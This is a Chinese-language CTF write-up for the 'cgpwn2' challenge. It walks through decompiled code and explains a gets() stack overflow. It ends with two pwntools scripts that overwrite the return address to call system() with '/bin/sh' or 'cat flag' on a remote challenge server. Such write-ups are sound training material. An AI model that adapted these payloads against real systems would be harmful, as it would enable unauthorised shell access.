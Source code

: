 ```yaml
---
layout: post
title:  cgpwn2
date:   2020-08-23 00:01:01 +0300
image:  2020-08-21-summerfield.jpg
tags:   [ctf,pwn,CGCTF,攻防世界]
---
```


ida打开程序，进入主函数查看代码

```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  hello();
  puts("thank you");
  return 0;
}
```

进入hello()函数

```assembly
char *hello()
{
  char *v0; // eax
  signed int v1; // ebx
  unsigned int v2; // ecx
  char *v3; // eax
  char s; // [esp+12h] [ebp-26h]
  int v6; // [esp+14h] [ebp-24h]

  v0 = &s;
  v1 = 30;
  if ( (unsigned int)&s & 2 )
  {
    *(_WORD *)&s = 0;
    v0 = (char *)&v6;
    v1 = 28;
  }
  v2 = 0;
  do
  {
    *(_DWORD *)&v0[v2] = 0;
    v2 += 4;
  }
  while ( v2 < (v1 & 0xFFFFFFFC) );
  v3 = &v0[v2];
  if ( v1 & 2 )
  {
    *(_WORD *)v3 = 0;
    v3 += 2;
  }
  if ( v1 & 1 )
    *v3 = 0;
  puts("please tell me your name");
  fgets(name, 50, stdin);
  puts("hello,you can leave some message here:");
  return gets(&s);
}
```

最开始的一部分代码是没什么用的，关键就是最后四行代码。

gets()函数能造成溢出，可以利用。

查看有没有可以利用的其他函数

```assembly
int pwn()
{
  return system("echo hehehe");
}
```

这个函数调用了system()函数，但是参数并不是我们所期望的"/bin/sh"或者"cat flag"。所以可以使用fgets将/bin/sh字符串读入bss区，然后将返回地址覆盖为system函数，参数布置为name的首地址。

```assembly
from pwn import *

io = remote("220.249.52.133",43490)
payload = "A" * (0x26 + 4) + p32(0x08048420)
payload += p32(0xdeadbeef) + p32(0x0804A080)
# system()返回地址
io.recvuntil("please tell me your name")
io.sendline("/bin/sh")
io.recvuntil("hello,you can leave some message here:")
io.sendline(payload)
io.interactive()
```

或者

```
from pwn import *

io = remote("220.249.52.133",43490)
payload = "A" * (0x26 + 4) + p32(0x08048420) + p32(0xdeadbeef) + p32(0x0804A080)
io.recvuntil("please tell me your name")
io.sendline("cat flag")
io.recvuntil("hello,you can leave some message here:")
io.sendline(payload)
io.interactive()
```

